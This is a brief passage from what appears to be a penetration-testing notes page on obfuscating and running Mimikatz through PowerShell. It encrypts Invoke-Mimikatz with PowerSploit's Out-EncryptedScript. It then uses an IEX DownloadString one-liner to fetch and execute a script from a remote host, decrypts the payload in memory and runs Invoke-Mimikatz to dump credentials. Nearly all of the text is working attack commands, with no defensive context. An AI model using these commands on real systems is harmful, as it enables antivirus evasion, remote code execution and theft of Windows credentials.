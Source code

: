 	http://192.168.0.108/ps/powersploit/ScriptModification/Out-EncryptedScript.ps1
	>Out-EncryptedScript -ScriptPath .\Invoke-Mimikatz.ps1 -Password shabiisme -Salt 123456
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/94.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/95.png)

	PS > IEX(New-Object Net.WebClient).DownloadString("http://192.168.0.108/ps/powersploit/ScriptModification/Out-EncryptedScript.ps1")
	PS > [String] $cmd = Get-Content .\evil.ps1
	PS > Invoke-Expression $cmd
	PS > $decrypted = de shabiisme 123456
	PS > Invoke-Expression $decrypted
	PS > Invoke-Mimikatz